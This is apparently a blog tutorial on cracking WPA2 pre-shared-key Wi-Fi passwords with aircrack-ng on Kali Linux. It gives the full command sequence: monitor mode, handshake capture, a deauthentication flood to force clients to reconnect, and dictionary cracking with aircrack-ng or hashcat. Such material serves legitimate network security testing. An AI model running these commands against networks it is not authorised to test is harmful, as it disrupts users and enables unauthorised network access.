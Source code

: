 ```yaml
---
title: "Cracking WPA2"
date: 2023-07-11T12:36:55+02:00
tags: ["pentesting", "linux"]
author: "Andy Sukowski-Bang"
description: "This short tutorial walks you through cracking WPA2 networks which use pre-shared keys using the [aircrack-ng](https://www.aircrack-ng.org) suite of tools to assess WI-FI network security. All of the necessary tools come preinstalled with the [Kali Linux](https://www.kali.org) distribution."
---
```


This short tutorial walks you through cracking WPA2 networks which use
pre-shared keys using the [aircrack-ng][1] suite of tools to assess WI-FI
network security. All of the necessary tools come preinstalled with the [Kali
Linux][2] distribution. The `#` in front of commands means, that they have to
be executed as the `root` user, e.g. using `sudo`.

## Wireless card into monitor mode

List all possible programs that could interfere with the wireless card. If
`kill` is specified, it will try to kill all of them.

```
# airmon-ng check kill
```

Enable monitor mode on an interface (here it's `wlan0`) and check if it worked.

```
# airmon-ng start wlan0
# airmon-ng
```

## Capture handshake

List Wi-Fi networks and their BSSIDs, Channels, etc.

```
# airodump-ng wlan0mon
```

Narrow search down to specific BSSID (MAC address).

```
# airodump-ng wlan0mon -d <BSSID>
```

Capture WPA2 handshake and write it to file (e.g. `handshake-01.cap`). Remember
to change interface name, if needed.

```
# airodump-ng -w handshake -c <channel> --bssid <BSSID> wlan0mon
```

**Optional in other terminal:** Simultaniously send deauthentication packets to
clients on the network to capture WPA2 handshake by forcing clients to
reauthenticate. Without this step, it might take some time to capture the
handshake.

```
# aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

## Crack password

After storing the handshake in e.g. `handshake-01.cap`, we can finally crack the
password using `aircrack-ng`.

```
# aircrack-ng handshake-01.cap -w dictionary.txt
```

Alternatively, we can extract the handshake from the `.cap` capture file and
convert it to a modern hashcat compatible hash file using
[hashcat.net/cap2hashcat][3], which can then be cracked using [hashcat][4].

[1]: https://www.aircrack-ng.org
[2]: https://www.kali.org
[3]: https://hashcat.net/cap2hashcat
[4]: https://hashcat.net/hashcat
